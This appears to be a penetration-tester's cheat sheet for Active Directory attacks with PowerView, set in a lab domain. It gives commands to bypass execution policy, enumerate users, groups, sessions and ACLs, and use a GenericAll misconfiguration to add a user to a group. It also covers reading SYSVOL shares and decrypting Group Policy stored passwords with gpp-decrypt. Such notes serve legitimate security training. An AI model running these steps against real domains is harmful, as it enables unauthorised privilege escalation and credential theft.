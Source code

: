 Transfer powerview to target: https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1
```powershell
powershell -ep bypass
```
```powershell
Import-Module .\PowerView.ps1
```
# Basic Enumeration
```powershell
Get-NetDomain
```
## Get users on domain
```powershell
Get-NetUser
```
```powershell
Get-NetUser | select cn
```
```powershell
Get-NetUser | select cn,pwdlastset,lastlogon
```
### Get specific user details
```powershell
Get-NetUser fred
```
## Get groups on domain
```powershell
Get-NetGroup | select cn
```
### Get specific group members
```powershell
Get-NetGroup "Sales Department" | select member
```
## Enumerate domain-joined machines
```powershell
Get-NetComputer
```
```powershell
Get-NetComputer | select name,dnshostname,operatingsystem,operatingsystemversion
```
## Enumerate User Permissions
Check user to see if they have admin privileges on any domain machines:
```powershell
Find-LocalAdminAccess
```
## Enumerate Logged on Users
This will check a computer to see if there are any users currently logged in. Due to windows changing how to handles sessions, the API's running behind the hood may require admin:
```powershell
Get-NetSession -ComputerName files04 -Verbose
```
Alternatively, use sysinternals tool PsLoggedOn (https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon):
```powershell
.\PsLoggedon.exe \\client74
```
# Enumerate ACE's
Access Control Entries associated with objects defines whether access to the specific object is allowed or denied.
* GenericAll: Full permissions on object
* GenericWrite: Edit certain attributes on the object
* WriteOwner: Change ownership of the object
* WriteDACL: Edit ACE's applied to object
* AllExtendedRights: Change password, reset password, etc.
* ForceChangePassword: Password change for object
* Self (Self-Membership): Add ourselves to for example a group
```powershell
Get-ObjectAcl -Identity stephanie
```
Note the "ObjectSID" and "SecurityIdentifier" of the output then run the following on the SIDs:
```powershell
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```
Converting multiple SID's at once:
```powershell
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```
This command checks if a group ("Management Department") has any objects with "GenericAll" permissions:
```powershell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```
Typically, a regular domain user should not have GenericAll permissions on other objects in AD, so this may be a misconfiguration.
## Example misconfig
If the group "Management Department" object has a user "stephanie" configured with GenericAll permissions on that group object, they can be simply run the following command to add stephanie to the group:
```powershell
net group "Management Department" stephanie /add /domain
```
# Enumerating Domain Shares
```powershell
Find-DomainShare
```
If files are shown, they can be viewed:
```powershell
ls "\\dc1.corp.com\sysvol\corp.com\"
```
```powershell
cat "\\dc1.corp.com\sysvol\corp.com\file.txt"
```
Look for domain policy files! They store local admin passwords and can be decrypted:
```powershell
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
